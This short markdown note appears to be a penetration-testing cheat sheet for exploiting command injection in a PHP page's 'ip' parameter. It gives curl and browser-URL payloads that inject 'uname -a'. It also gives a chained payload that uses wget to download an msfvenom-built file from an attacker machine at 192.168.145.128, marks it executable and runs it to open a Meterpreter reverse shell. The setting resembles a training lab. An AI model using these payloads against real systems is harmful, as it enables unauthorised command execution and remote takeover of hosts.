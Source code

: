 # Curl

### If the web application is vulnerable to Command Injection...

### From a terminal this will filter Curl and only print the OS and architecture of the web application host.
```
curl http://<IP>/<Subdirectory>/example1.php?ip=";uname%20-a" 2>&1 | awk '/<pre>/{flag=1;next}/pre>/{flag=0}flag'
```
Alternatively you can also just enter "uname -a" directly into the web browser address bar in this format.
```
http://<IP>/<Subdirectory>/example1.php?ip=127.0.0.1;uname -a
```

### This example is a series of commands to get your target to download an exploit. I created a reverse shell using msfvenom, loaded a payload in Metasploit, launched a Python SimpleHTTPServer, then appended the below script to the web browsers address bar. If properly executed Metasploit spawn a Meterpreter session.
```
ip=127.0.0.1;wget%20-O%20/tmp/cmd%20http://192.168.145.128/cmd;chmod%20755%20/tmp/cmd;/tmp/cmd
```

